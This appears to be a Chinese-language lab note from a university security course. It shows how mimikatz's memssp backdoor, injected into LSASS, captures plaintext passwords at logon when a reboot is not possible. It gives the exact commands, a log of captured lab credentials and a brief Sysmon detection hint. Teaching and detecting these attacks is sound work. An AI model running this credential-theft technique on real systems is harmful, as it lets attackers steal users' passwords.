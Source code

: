 # NTUSTISC - AD Note - Lab(無法Reboot的時盜取Passwd)
[TOC]

Lecture Video: [2022/05/04 AD 安全1](https://youtu.be/Cv2gNQkDM8Q?si=l1na5hFGpAPk6Uux&t=4257)

## Background
如果遇到不能重開機的狀況，要怎麼前面提到的明文密碼呢?可以利用MEMSSP，它也是mimikatz設計的一個小後門，只要提升debug權限，再注入這個後門，之後等其他人登入到此主機，就可以被這個後門記錄起來
## Lab
### ==無法Reboot的時盜取Passwd==
1. Inject memssp
    記得用系統管理員權限開mimikatz
    ```bash
    mimikatz # privilege::debug
    Privilege '20' OK

    mimikatz # misc::memssp
    Injected =)
    ```
2. Relogin
重新登出再登入才會看到
3. Result
    在`C:\Windows\System32\mimilsa.log`
    ```bash
    [00000000:001f7c0f] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f7c0f] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f80d1] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f80d1] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f80e8] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f80e8] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001fc7f9] kuma\bear	1qaz@WSX3edc
    [00000000:001fc7f9] kuma\bear	1qaz@WSX3edc
    [00000000:001fc85a] kuma\bear	1qaz@WSX3edc
    [00000000:001fc85a] kuma\bear	1qaz@WSX3edc
    [00000000:001fc7f9] kuma\bear	1qaz@WSX3edc
    [00000000:001fc7f9] kuma\bear	1qaz@WSX3edc
    ```
    可以看到這個log file用明文的方式新增了我們剛剛打入的密碼
### ==How to detect it?==
一樣是用Sysmon的Event ID: 11可以知道，但因為之前安裝不成功所以只能Skip，不過原理就是他是去偵測lsass.exe建立mimilsa.log的瞬間